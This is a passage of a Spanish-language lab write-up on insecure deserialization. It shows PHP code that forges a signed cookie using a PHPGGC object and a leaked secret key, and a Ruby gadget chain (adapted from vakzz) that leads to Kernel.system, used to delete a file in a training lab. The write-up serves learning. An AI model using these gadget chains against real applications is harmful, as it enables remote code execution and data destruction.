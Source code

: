 ```PHP
$object = "OBJECT-GENERATED-BY-PHPGGC"; $secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP"; $cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}'); echo $cookie;
```

Quedando como:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220521035301.png' | relative_url }}" text-align="center"/>
</div>

Así, ejecutamos el script y copiamos el output sobre el valor de la cookie y enviamos la request. Terminando el laboratorio.

<br />

#### 3.3. Trabajando con gadget chains documentadas.

Es posible que no siempre haya una herramienta dedicada disponible para explotar cadenas de gadgets conocidas en el marco utilizado por la aplicación de destino.

En este caso, siempre vale la pena buscar en línea para ver si hay vulnerabilidades documentadas que pueda adaptar manualmente. Ajustar el código puede requerir una comprensión básica del lenguaje y el marco, y es posible que a veces necesite serializar el objeto usted mismo, pero este enfoque aún requiere mucho menos esfuerzo que construir un exploit desde cero.

<br />

**Laboratorio 7: Explotando deserialización Ruby usando una gadget chain documentada**.

Este laboratorio tiene un mecanismo de sesión basado en un objeto serializado en forma de cookie.
Completamos un laboratorio construyendo un laboratorio que borre el fichero /morale.txt localizado en el home del usuario Carlos buscando en google Universal Deserialisation Gadget for Ruby 2.x-3.x by vakzz y lo retocamos para que quede como sigue:

```ruby
Gem::SpecFetcher
Gem::Installer

module Gem
class Requirement
def marshal_dump
[@requirements]
end
end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "COMMAND")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

```